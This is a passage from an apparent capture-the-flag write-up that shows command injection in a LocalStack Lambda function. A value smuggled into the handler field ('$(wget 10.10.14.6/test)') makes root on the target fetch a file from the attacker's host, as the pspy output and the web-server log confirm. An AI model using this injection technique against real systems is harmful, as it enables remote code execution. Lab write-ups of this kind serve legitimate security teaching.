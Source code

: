 When I invoke this, it fails:

```

oxdf@hacky$ aws lambda invoke --function-name ex --endpoint-url http://s3-testing.stacked.htb out.json
{
    "StatusCode": 200,
    "FunctionError": "Unhandled",
    "LogResult": "",
    "ExecutedVersion": "$LATEST"
}

```

At `pspy`, the same three processes, but one more before it:

```

2021/08/25 20:55:27 CMD: UID=0    PID=1389   | wget 10.10.14.6/test 
2021/08/25 20:55:27 CMD: UID=0    PID=1388   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
2021/08/25 20:55:27 CMD: UID=0    PID=1387   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
2021/08/25 20:55:27 CMD: UID=0    PID=1396   | docker cp /tmp/localstack/zipfile.0e05eb2c/. 055307ed86c3a9abf7e78574787249c1162138905afdea2b7590502d4251f4bd:/var/task 

```

And a request at my Python web server:

```
10.10.11.112 - - [25/Aug/2021 16:55:27] code 404, message File not found
10.10.11.112 - - [25/Aug/2021 16:55:27] "GET /test HTTP/1.1" 404 -

```

This is successful command injection.

#### Shell
